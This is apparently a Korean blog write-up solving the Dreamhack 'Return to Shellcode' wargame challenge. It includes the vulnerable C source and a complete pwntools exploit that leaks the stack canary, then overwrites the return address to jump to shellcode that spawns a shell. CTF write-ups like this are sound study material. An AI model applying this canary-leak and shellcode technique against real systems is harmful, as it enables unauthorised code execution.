 ```yaml
---
title: "[Dreamhack] Return to Shellcode 문제 풀이"
date: "2024-09-13"
tags: ["dreamhack", "system_hacking", "wargame"]
draft: false
summary: "요약: Return to Shellcode가 있다. 하지만 Canary를 곁들인."
---
```


# 문제 파악

일단 이 문제의 핵심은 canary이다. 하지만 canary의 Shellcode를 곁들인 느낌이다.

```c
// Name: r2s.c
// Compile: gcc -o r2s r2s.c -zexecstack

#include <stdio.h>
#include <unistd.h>

void init() {
  setvbuf(stdin, 0, 2, 0);
  setvbuf(stdout, 0, 2, 0);
}

int main() {
  char buf[0x50];

  init();

  printf("Address of the buf: %p\n", buf);
  printf("Distance between buf and $rbp: %ld\n",
         (char*)__builtin_frame_address(0) - buf);

  printf("[1] Leak the canary\n");
  printf("Input: ");
  fflush(stdout);

  read(0, buf, 0x100);
  printf("Your input is '%s'\n", buf);

  puts("[2] Overwrite the return address");
  printf("Input: ");
  fflush(stdout);
  gets(buf);

  return 0;
}
```

위에 이 코드는 이 문제의 소스코드인데 간단하다.
NX가 걸려있지 않은 상태로 컴파일되는 형태이고, 첫번째 input에선 canary를 leak하고 두번째 input에선 shellcode와 더미값(SFP 포함) 그리고 leak했던 canary를 넣어주면 정상적으로 넘어갈 수 있는 문제다.

**이제 문제 분석은 끝났으니 한번 익스를 짜보자**

# 익스 코드 작성

```python
from pwn import *

p = remote('host1.dreamhack.games', 22266)
#p = process('./r2s')

context.arch = 'amd64'

p.recvuntil(b'Address of the buf: ')
buf = int(p.recvline()[:-1], 16)
leak_canary = b'A'* (88+1) # null byte

pause()

p.recvuntil(b'Input: ')
p.send(leak_canary)
p.recvuntil(leak_canary)
canary = u64(b'\x00'+p.recvn(7))
print('canary: '+hex(canary))
print('buf: '+hex(buf))


shellcode = asm(shellcraft.sh())

payload = shellcode
payload += b'A' * (88-len(shellcode))
payload += p64(canary)
payload += b'B' * 8
payload += p64(buf)
p.sendlineafter(b'Input: ', payload)

p.interactive()
```

익스 코드는 위와 같다. 간단하게 설명해보겠다.

```python
p.recvuntil(b'Address of the buf: ')
buf = int(p.recvline()[:-1], 16)
leak_canary = b'A'* (88+1) # null byte

pause()

p.recvuntil(b'Input: ')
p.send(leak_canary)
p.recvuntil(leak_canary)
canary = u64(b'\x00'+p.recvn(7))
print('canary: '+hex(canary))
print('buf: '+hex(buf))
```

이 파트는 문제파일에서 실행시 출력해주는 buf 주소 값과 BOF를 통해서 canary 값을 leak을 시킨다.
buf의 주소 값은 추후 Shellcode를 넣고 나서 다시 되돌아갈 포인트이기에 중요하다.
canary는 추후 Return Address Overwrite를 진행할때 canary 값이 깨지기에 이를 방지하고자 꼭 필요한 값이다.

하여튼 **중요한** 값을 두개를 추출한 뒤 이젠 다음 작업을 진행한다.

```python
shellcode = asm(shellcraft.sh())

payload = shellcode
payload += b'A' * (88-len(shellcode))
payload += p64(canary)
payload += b'B' * 8
payload += p64(buf)
p.sendlineafter(b'Input: ', payload)

p.interactive()
```

이 파트는 Shellcode + Canary + SFP + buf 주소를 합쳐서 input 두 개에 값을 집어넣는다.
여태까지 포너블 문제를 풀어오면서 shellcraft를 처음 써보았다.

하여튼 shellcraft로 Shellcode를 만들어주고, 맨 앞엔 Shellcode, 그 뒤엔 Shellcode의 길이 만큼 뺀 더미 값, 좀전에 추출한 Canary, SFP에 들어갈 더미, 다시 돌아갈 buf 주소로 페이로드를 구성해주었다.

**자 그러면 이제 익스를 날려보자.**

# 익스플로잇!!

![](https://i.imgur.com/VOCL5JT.png)

아\~\~\~\~주 잘되는 모습을 볼 수 있다 :)

# 느낀점

아잇,, 이거 페이로드 부분 짤 때 엄청 빡셌던 기억이 납니다.
buf 길이가 계속 자기자리 못잡고 남의 자리를 침범해서 조금 짜증났었습니다.
뭐.. 그래도 요래요래 하다보니 풀리더군요.
갠적으로 이미 배운 부분하고 융합해서 같이 할 수 있다는게 정말 좋았습니다.
